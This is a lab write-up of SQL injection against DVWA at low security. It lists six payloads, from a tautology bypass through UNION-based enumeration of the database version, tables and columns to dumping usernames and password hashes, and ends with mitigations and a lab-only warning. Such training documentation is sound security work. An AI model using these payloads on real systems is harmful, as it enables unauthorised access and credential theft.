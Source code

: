 
---

# SQL Injection – DVWA Low Security

**Tester:** Areebah Khan  
**Application:** DVWA v1.10 – Low Security  
**Date:** 07/09/25

## Objective
Demonstrate SQL injection vulnerabilities and exploitation steps to extract sensitive data.

---

## Methodology
The testing was performed on the SQL Injection (Low) page of DVWA. Input was submitted via the User ID form field, and raw HTTP requests were also verified. All payloads were crafted to illustrate the consequences of unsanitized SQL queries.
1. Identify vulnerable User ID field.
2. Test payloads to confirm vulnerability.
3. Enumerate database structure.
4. Extract user credentials.

---

## Exploitation Steps

<details>
<summary>Step 1: Confirm Vulnerability</summary>

- **Payload:** `1' OR '1'='1`
- **URL Endcoded:** id=1%27%20OR%20%271%27=%271

**Observation:**
- Instead of returning a single user (ID 1), the application has returned all users in the database, including user ID's, first names, and surnames.
- The input has successfully modified the backend SQL query to always evaluate as true: SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';

**Impact:** 
- Bypasses query constraints.
- User input is not sanitised or parameterised, allowing attackers to manipulate queries.
- In a real-world scenario, this type of injection could allow an attacker to access all user records, and potentially extract sensitive information such as usernames, passwords, and other database contents.

Working SQL injection:

<img width="940" height="644" alt="image" src="https://github.com/user-attachments/assets/7809b124-80ef-41dc-b76b-a2189bf9251e" />

<img width="940" height="878" alt="image" src="https://github.com/user-attachments/assets/73871ae2-665b-41de-85d3-5c0ee1797f6f" />


</details>

<details>
<summary>Step 2: Retrieve Database Version</summary>

- **Payload:** `1' UNION SELECT null, version() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20version()%20--%20
  
**Observation:**
-  Database version: `10.1.26-MariaDB-0+deb9u1`
- The First name field was empty because we used null in the payload; the surname field shows the version
- The UNION SELECT payload works because DVWA Low does not sanitize input.
- It allows combining your query with the original, extracting backend information.

**Impact:** 
- Reveals backend system
- Confirms that SQL injection can be used not just to dump user data but also to enumerate database details.
- In a real application, this could help an attacker map the database structure, aiding further attacks.


<img width="940" height="625" alt="image" src="https://github.com/user-attachments/assets/785cf36c-ebbd-4ed9-99e8-1707b78b76c4" />



</details>

<details>
<summary>Step 3: Retrieve Database Name</summary>

- **Payload:** `1' UNION SELECT null, database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20database()%20--%20
  
**Observation:**
- Database: `dvwa`  

**Impact:**
- Targets specific tables
- Confirms that the active database can be enumerated via SQL injection

<img width="940" height="612" alt="image" src="https://github.com/user-attachments/assets/824fc852-c5c9-4ddc-acfc-93136269c9b7" />

</details>

<details>
<summary>Step 4: List Tables in the database</summary>

- **Payload:** `1' UNION SELECT null, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20
  
**Observation:** 
- Tables: `users, guestbook`
- Queries the information_schema.tables system table to get all tables in the current database. 

**Impact:** 
- Maps database structure critical for further data extraction

<img width="756" height="491" alt="image" src="https://github.com/user-attachments/assets/edf43ccb-0b72-4283-b8dd-891c05b9a1d8" />


</details>

<details>
<summary>Step 5: List Columns in Users Table</summary>

- **Payload:** `1' UNION SELECT null, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name='users'%20--%20

**Observation:** 
- Columns: `user, password`
- Queries information_schema.columns to identify the schema of the users table. 

**Impact:** 
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="616" alt="image" src="https://github.com/user-attachments/assets/c4cf25a6-f08c-43e6-a1ec-6bcd28453f4f" />

</details>

<details>
<summary>Step 6: Dump Users Table</summary>

- **Payload:** `1' UNION SELECT user, password FROM users --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20user,%20password%20FROM%20users%20--%20

**Observation:** 
- Returns all usernames and password hashes
- Can now extract sensitive information from the database using SQL injection 

**Impact:** 
- Full compromise of sensitive data
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="655" alt="image" src="https://github.com/user-attachments/assets/a6ea7a6e-0d5a-4bb1-9f8c-e64deda42562" />

</details>

---

## Summary
•	DVWA Low Security is vulnerable to SQL injection.
•	All six steps demonstrate the exploitation path from query manipulation to full data extraction.
•	Real-world implications:
    o	Attackers can retrieve all users and sensitive information.
    o	Database enumeration allows mapping and further exploitation.

---

## Recommendations/Mitigations
1.	Use parameterized queries / prepared statements to prevent user input from altering SQL syntax.
2.	Sanitize and validate all inputs to block malicious payloads.
3.	Limit database privileges — avoid giving web applications full access to system tables.
4.	Implement monitoring / WAF to detect suspicious queries.

---

## Try It Yourself
To replicate this test safely:
1. Install and configure DVWA locally.
2. Navigate to **SQL Injection (Low)**.
3. Use the payloads provided in each step.  

Important: Only test in a controlled lab (like DVWA).  
Never attempt these techniques on real applications.

---

## SQL Injection Flow Diagram

```mermaid
graph LR
A[User Input] --> B[DVWA SQL Query]
B --> C{Sanitized?}
C -- No --> D[SQL Injection Success]
C -- Yes --> E[Query Safe]



